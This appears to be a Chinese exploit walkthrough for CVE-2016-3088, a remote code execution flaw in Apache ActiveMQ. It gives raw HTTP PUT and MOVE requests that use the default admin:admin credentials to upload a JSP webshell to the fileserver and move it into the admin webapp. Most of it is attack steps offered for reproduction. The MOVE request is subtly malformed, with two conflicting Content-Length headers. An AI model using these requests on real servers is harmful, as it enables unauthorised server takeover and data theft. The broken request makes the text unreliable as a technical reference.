

# （CVE-2016-3088）ActiveMQ 应用漏洞

> 原文：[http://book.iwonder.run/0day/ActiveMQ/1.html](http://book.iwonder.run/0day/ActiveMQ/1.html)

## 一、漏洞简介

ActiveMQ 是一款流行的开源消息服务器。默认情况下，ActiveMQ 服务是没有配置安全参数。恶意人员可以利用默认配置弱点发动远程命令执行攻击，获取服务器权限，从而导致数据泄露。

## 二、漏洞影响

Apache ActiveMQ 5.x ~ 5.14.0

## 三、复现过程

漏洞是需要登录之后才可以执行

漏洞利用就是/fileserver/有 put 上传权限，/admin/有执行权限，可找到绝对路径，使用 move 移动文件到/admin/

下面就是两步走，先是利用 put 上传文件到/fileserver/,然后移动到 move 到 admin 下面

所有返回为 204 就代表是成功，有个坑点：不要 put 同文件名的文件上去

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

ActiveMQ 默认开启 PUT 方法，当 fileserver 存在时我们可以上传 jspwebshell。


```
PUT /fileserver/shell.jsp HTTP/1.1
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=

shell 
```

利用 MOVE 方法将 Webshell 移入 admin/ 目录


```
Request Raw:
MOVE /fileserver/shell.jsp HTTP/1.1
Destination:file:/data/apache-activemq-5.7.0/webapps/admin/shell.jsp
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 17
Content-Length: 0

shell 
```



